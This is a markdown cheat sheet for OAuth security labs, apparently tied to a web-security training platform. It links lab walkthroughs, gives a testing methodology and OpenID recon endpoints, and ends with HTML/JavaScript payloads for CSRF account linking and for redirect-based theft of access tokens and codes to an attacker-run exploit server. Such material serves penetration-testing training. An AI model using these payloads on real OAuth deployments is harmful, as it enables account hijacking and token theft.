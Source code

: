 # OAuth - CHEATSHEET +  LABS

## Key Terms
```
- SAML based SSO (single sign-on)
- OpenID Connect
- OAuth Grant Types:
	> authorization code
	> implicit (token via browser)
```
## Walkthrough - Most Important Labs
- [Forced-OAuth-profile-linking-(no-state-param+CSRF)](Forced-OAuth-profile-linking-(no-state-param+CSRF).md)

- [OAuth-account-hijacking-via-redirect_uri](OAuth-account-hijacking-via-redirect_uri.md)

- [SSRF-via-OpenID-dynamic-client-registration](SSRF-via-OpenID-dynamic-client-registration.md)

- [Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit)](Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit).md)

## Methodology
```bash
- Search for a specific provider and look for endpoints in the documentation
- response_type=token? -> implicit grant
- No state param? -> CSRF
- OpenID? -> try register + SSRF
- redirect_url? 
    > try arbitrary redirect
    > try path traversal
```
## Cheat Sheet
```bash
# OPENID CONNECT
/.well-known/openid-configuration 
/.well-known/jwks.json
/reg -> redirect_uris, logo_uri  -> registrar usuario + obtener client_id +  SSRF
/client/<client_id/logo 
```
## Payloads examples
```js
<iframe src="<IP>/oauth-linking?code=STOLEN-CODE"></iframe>
//----------------------//
<iframe src="https://<OAUTH-IP>/auth?client_id=<YOUR-CLIENT-ID>f&redirect_uri=<EXPLOIT-SV>&response_type=code&scope=openid%20profile%20email"hidden="hidden"></iframe>
//----------------------//
<script>
  if (!document.location.hash) {
    window.location = 'https://<OAUTH-IP>/auth?client_id=g4c0gltgknmy2ycmupioa&redirect_uri=<IP-LAB>/oauth-callback/../post/next?path=https://exploit-0a4c006b039157ca80ddf7830129001d.exploit-server.net&response_type=token&nonce=1727033259&scope=openid%20profile%20email';
  } else {
    window.location = '/?' + document.location.hash.substr(1);
  }
</script>
```


